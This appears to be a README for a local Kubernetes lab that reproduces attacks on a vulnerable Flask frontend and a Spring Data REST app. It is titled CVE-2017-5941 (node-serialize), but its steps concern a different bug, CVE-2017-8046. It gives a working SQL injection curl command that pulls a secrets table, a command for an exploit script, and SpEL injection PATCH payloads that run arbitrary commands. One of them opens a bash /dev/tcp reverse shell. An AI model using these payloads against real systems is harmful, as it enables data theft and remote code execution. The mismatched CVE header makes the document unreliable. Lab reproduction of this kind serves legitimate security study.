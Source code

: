 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Steps to Reproduce

## Setup
1- `minikube start`
2- In FlaskVulnerableFrontEnd/kube run `kubectl apply -f vulnerable-frontend-deployment.yaml`
3- In SpringBreakVulnerableApp/kube run `kubectl apply -f springbreak-vulnerable-app-deployment.yaml`
4- Port-forwar both of them with `kubectl port-forward pods/springbreak-vulnerable-app..... 8090:8090` and `kubectl port-forward pods/vulnerable-frontend-.... 5000:5000`

## Attack
1- First the attacker uses SQL Injection to the frontend with known ip and port with `curl "http://localhost:5000/search?query='%20UNION%20SELECT%20id,%20secret_info%20AS%20info%20FROM%20secrets%20--"` and finds the internet endpoint of the backend server.
2- Then with this knowledge attacker runs the exploit.py, `python exploit.py --ip <ip from injection> --port <port from injection>`
3- Attacker has connected a pseudo reverse shell.




## Other ways to create the exploit and its payload
1- To Create server jar in SpringBreakVulnerableApp run `mvn clean install spring-boot:repackage` \
2- Run server `mvn spring-boot:run` \
3- To start server in SpringBreakVulnerableApp run `java -jar -Dserver.port=8090 target/SpringBreakVulnerableApp-1.0.jar --debug` \
4- Create data for exploit `curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://localhost:8090/entity` \
5- To Create exploit jar, in spring-break_cve-2017-8046 run `mvn clean compile package` \
6- To execute commands use ` java -jar spring-break_cve-2017-8046-1.3-jar-with-dependencies.jar --url "http://localhost:8090/entity/1" --command "<command>"` or `curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"<command>\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://localhost:8090/entity/1/"` \

curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"bash -c '\''exec 5<>/dev/tcp/127.0.0.1/1234;cat <&5 | while read line; do $line 2>&5 >&5; done'\'' \").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://localhost:8090/entity/1/"
